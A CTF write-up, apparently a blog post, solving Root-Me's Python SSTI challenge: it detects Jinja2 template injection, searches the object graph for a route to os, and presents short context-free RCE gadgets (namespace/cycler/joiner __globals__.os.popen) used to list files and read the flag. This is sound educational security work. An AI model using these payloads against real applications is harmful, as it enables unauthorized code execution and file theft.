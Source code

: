 +++ title = "From Detection to Flag: A Deep Dive into Jinja2 SSTI on Root-Me" 
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution." 
date = "2025-09-11" 
draft = false 
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough'] 
+++

+++ 
title = "From Detection to Flag: A Deep Dive into Jinja2 SSTI on Root-Me"
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution."
date = "2025-09-11"
draft = false
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough']
+++

I recently tackled a fun Server-side Template Injection (SSTI) challenge on Root-Me and wanted to document my process. This post follows my journey from initial detection to crafting a reliable, context-free payload to gain code execution.

## The Challenge: Python SSTI Introduction

The goal was to solve the "Python - Server-side Template Injection Introduction" challenge on [Root-me.org](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction?lang=en).

### << SETUP >>

I started by loading the challenge environment and intercepting the requests using Caido. The application allows you to preview content submitted through a form.

### << DETECT >>

The core of the application is a POST request to `/preview` with `title` and `content` parameters.

```http
POST /preview HTTP/1.1
Host: challenge01.root-me.org:59074
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

title=hi&content=hi&button=yes
```

To test for SSTI, I sent a simple mathematical expression, `{{7*7}}`, in both the `title` and `content` fields. The server's response was revealing:

```json
{
    "content": "49",
    "title": "{{7*7}}"
}
```

The `content` field was processed, while the `title` field was not. This confirmed an SSTI vulnerability in the `content` parameter. To be certain about the template engine, I tried two different payloads:

1.  `{{3 * 3}}` resulted in `9`.
2.  `{{'3' * 3}}` resulted in `333`.

This behavior is characteristic of Jinja2, confirming my suspicion.

### << EXPLORE >>

With the vulnerability confirmed, the next step was to find a way to execute shell commands. My goal was to access the `os` module in Python.

#### The Problem with Context-Dependent Payloads

In previous challenges, like one from picoCTF, I had used "egg hunter" payloads that depend on the application's context. For example:

```python
{{ ''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode() }}
```

The problem with this method is that the index for `popen` (`[356]`) is not consistent across different environments. It's a brittle approach. I wanted to find a more reliable, context-independent payload.

#### The Quest for a Context-Free Payload

I drew inspiration from the GreHack 2021 talk by @podalirius_, "[Optimizing Server Side Template Injections payloads for jinja2](https://www.youtube.com/watch?v=ahBxZkOTdg0)", which discusses creating context-free payloads.

The ideal payload should be:
1.  **Context-free:** It shouldn't rely on any data passed into the `.render()` method.
2.  **Short:** Shorter is always better.

The key is the `self` object, which is a reference to the template itself and is accessible even with an empty `.render()` call.

```python
>>> jinja2.Template("""I am {{ self }}""").render()
'I am <TemplateReference None>'
```

From this `self` object, we should be able to find a path to the `os` module.

#### Finding the Path with BFS

Python's objects and attributes can be thought of as a graph. To find the shortest path from our starting object (`jinja2`) to our target (`os`), we can use a Breadth-First Search (BFS). This helps avoid long exploration traps and cycles.

During this exploration, I got a bit confused about the distinction between objects, attributes, and modules in Python. They all felt very similar. I got a great explanation:

> **You're right to feel they're similar—in Python, almost everything, including modules and functions, is fundamentally an object. The difference lies in their role and relationship to each other.**
> 
> **Object (obj):** The most basic building block. An instance of a class (e.g., an integer, a list, a function, a module).
> 
> **Attribute (attr):** A name that belongs to an object, accessed with the dot notation (`parent_object.attribute`). It can be a variable or a method.
> 
> **Module:** A specific type of object whose main job is to organize Python code, acting as a namespace for its attributes.

With that clarified, I wrote a small BFS script (`audit.py`) to search for paths from the `jinja2` object to the `os` module. It found several promising paths:

```bash
$ ./audit.py jinja2
Searching for 'os' from 'jinja2' (max depth: 5)...
jinja2.bccache.fnmatch.os
jinja2.bccache.os
jinja2.bccache.tempfile._os
jinja2.environment.os
jinja2.loaders.os
jinja2.utils.os
```

This confirmed that a path exists. Now, how to get there from `self`?

#### From `self` to `os`

First, I inspected the `self` object using `dir()`:

```python
>>> jinja2.Template("""{{ f(self) }}""").render(f=dir)
"['__class__', '__delattr__', ..., '_TemplateReference__context']"
```

Most attributes were internal dunder methods, but `_TemplateReference__context` looked interesting.

```python
>>> jinja2.Template("""{{ self._TemplateReference__context }}""").render()
"<Context {'range': ..., 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>} of None>"
```

This context object gives us access to several Jinja2 utility classes like `cycler`, `joiner`, and `namespace`. My BFS search showed that `jinja2.utils.os` was a valid path. Since `namespace` is in `jinja2.utils`, I could traverse from there to the `os` module using Python's object introspection capabilities (`__init__.__globals__`).

This gives us a reliable path to `os`:

```python
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

Even better, since `namespace`, `cycler`, and `joiner` are available in the global context of the template, we can access them directly without referencing `self`. This leads to a much cleaner and shorter payload.

#### The Final Gadgets

This discovery yielded three reliable, context-free gadgets for Jinja2 SSTI:

```python
{{ namespace.__init__.__globals__.os.popen("id").read() }}
{{ cycler.__init__.__globals__.os.popen("id").read() }}
{{ joiner.__init__.__globals__.os.popen("id").read() }}
```

### << EXPLOIT >>

Now it was time to use these gadgets on the challenge server. I sent the payload in the `content` parameter:

```
content={{ namespace.__init__.__globals__.os.popen("ls -la").read() }}
```

The server responded with a directory listing, and I spotted a `.passwd` file.

#### A Failed Experiment: `popen` vs. `Popen`

To get a nicely formatted output, I first tried to use the `communicate()` method, which I had used in the past:

```python
{{ namespace.__init__.__globals__.os.popen('id', shell=True, stdout=-1).communicate()[0].decode() }}
```

This resulted in an error: `TypeError: popen() got an unexpected keyword argument 'shell'`.

This was a key learning moment. I realized I was confusing `os.popen()` with the more powerful `subprocess.Popen`. The `os.popen` function is simpler and doesn't accept those arguments. The payload I used in the picoCTF challenge was accessing `subprocess.Popen`, not `os.popen`.

#### Getting the Flag

To solve the formatting issue and read the file, I switched to `readlines()`, which returns the output as a list of strings, preserving newlines.

**Final Payload:**

```
content={{ namespace.__init__.__globals__.os.popen('cat .passwd').readlines() }}
```

**Response:**

```json
{
    "content": "['Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!\n']",
    "title": "hi"
}
```

Success! I found the flag.

## Final Thoughts

This challenge was a great exercise in moving beyond simple, context-dependent SSTI payloads. The journey was just as important as the result. By hitting a wall with `os.popen`, taking the time to understand the object graph with BFS, and clarifying fundamental Python concepts, I was able to build a short, reliable, and context-free gadget for code execution. It highlights the importance of deep-diving into the framework you're targeting and not being afraid to go back to the basics.
